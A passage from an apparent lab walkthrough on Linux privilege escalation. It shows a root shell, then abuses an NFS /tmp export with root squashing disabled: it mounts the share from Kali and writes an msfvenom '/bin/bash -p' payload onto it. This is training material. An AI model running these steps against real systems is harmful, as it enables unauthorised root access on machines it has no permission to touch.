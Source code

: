 output (use from attacker machine):
```
Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 25 14:02:49 2019 from 192.168.1.2
root@debian:~# 

```
# Task 19 : NFS
Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:
```
cat /etc/exports
```
output:
```
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#

/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

#/tmp *(rw,sync,insecure,no_subtree_check)
```

Note that the /tmp share has root squashing disabled.

On your Kali box, switch to your root user if you are not already running as root:
```
sudo su
```
Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly):
```
mkdir /tmp/nfs
mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs
```
output:
```
Created symlink /run/systemd/system/remote-fs.target.wants/rpc-statd.service → /usr/lib/systemd/system/rpc-statd.service.
```
Still using Kali's root user, generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash):
```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```
output:
```
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
```
